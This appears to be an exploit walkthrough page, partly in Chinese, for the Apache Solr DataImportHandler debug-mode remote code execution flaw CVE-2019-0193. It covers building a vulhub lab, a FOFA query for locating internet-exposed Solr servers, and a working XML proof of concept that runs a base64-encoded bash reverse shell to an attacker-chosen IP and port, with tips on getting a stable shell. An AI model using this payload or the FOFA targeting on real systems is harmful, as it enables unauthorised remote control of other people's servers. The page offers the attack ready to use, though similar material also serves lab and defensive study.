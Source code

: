 ```yaml
---
title: Apache Solr Debug-Mode Remote Execution Vulnerability CVE-2019-0193
---
```


# Apache Solr Debug-Mode Remote Execution Vulnerability CVE-2019-0193

## Vulnerability Description


## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Solr</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## Environment construction
```shell
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-0193
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```
Visit http://xxx.xxx.xxx.xxx:8983/solr/ It's normal

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/6b8ee428-c68d-4517-8206-fb6eda9d4e5b.png)

## Login page

Click the test you just created to enter debugging

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/9e50ce8c-94b7-461c-95e9-17030e72623f.png)

Fill in the following POC code into Debug-Mode

```xml
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

Note: Please replace the location of the base64 string in the code executed by POC and fill it in with your own IP address and encrypted base64.

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
直接如上写入反弹无反应，不稳定，需要base64加密写才能反弹一个shell
```

Click EXecute to execute the code

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/7217d375-48e1-460e-bb1e-c1db123daff1.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/999fb5d8-a762-4957-a9b7-a6e66df216dd.png)